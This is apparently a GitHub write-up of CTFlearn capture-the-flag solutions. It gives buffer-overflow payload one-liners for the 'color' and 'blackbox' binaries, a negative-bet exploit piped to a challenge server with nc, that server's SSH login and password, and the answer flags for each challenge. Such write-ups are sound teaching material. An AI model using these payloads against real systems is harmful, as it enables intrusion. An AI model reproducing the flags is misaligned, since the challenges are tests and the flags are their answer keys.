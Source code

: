 # Lazy Game Challenge

Trie negative number for the bet like -100000$. And finally it gave me flag.

Or if not, execute this command, it does everything automatically

```sh
printf "Y\n-1000000\n11\n11\n11\n11\n11\n11\n11\n11\n11\n11\n" | nc thekidofarcrania.com 10001
```

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{d9029a08c55b936cbc9a30_i_wish_real_betting_games_were_like_this!}
``
</details>

# Simple bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/simplebof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{buffer_0verflows_4re_c00l!}
``
</details>

# Favorite Color

Connect to the server `ssh color@104.131.79.111 -p 1001`
Entry the password `guest`

Now you are connect, if you entry `ls -la`, you see a file color.c

So fire the command to buffer overflow on the binary to gain acces to the flag file 

```sh
(python2 -c 'print "a"*52+"W\x86\x04\x08"';cat) | ./color
```

And if you have buffer overflow, you have just a `cat flag.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{c0lor_0f_0verf1ow}
``
</details>

# RIP my bof

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/ripbof.py)

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ntr0ling_r1p_1s_n0t_t00_h4rd_abjkdlfa}
``
</details>

# Blackbox

Fire the command to string overflow on the binary to get the flag

```sh
python -c "print '11111111111111111111111111111111111111111111111111111111111111111111111111111111\x02\x00\x00\x00'" | ./blackbox
```

<details>
<summary markdown="span">Answer</summary>

flag :``
flag{0n3_4lus_1_1s_Tw0_dumm13!!}
``
</details>

# Cryptoversing

Xor `h_bO}EcDOR` with `0x10`  and `+G)uh(jl,vL` with `0x18` on [Cryptii](https://cryptii.com/) from Bitwise operation 

<details>
<summary markdown="span">Full explanation</summary>

[here](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/explanation_cryptoversing.md)
</details>

<details>
<summary markdown="span">Answer</summary>

flag :``
xOr_mUsT_B3_1mp0rt4nT
``
</details>

# Shell time!

Use [python scripts](https://github.com/GuillaumeDupuy/CTF/blob/main/CTFLearn/scripts/shell.py)

Execute

```sh
python3 shell.py thekidofarcrania.com 4902
```

Write `cat flag2.txt` to get the flag

<details>
<summary markdown="span">Answer</summary>

flag :``
CTFlearn{c0ngrat1s_0n_th1s_sh3ll!_SKDJLSejf}
``
</details>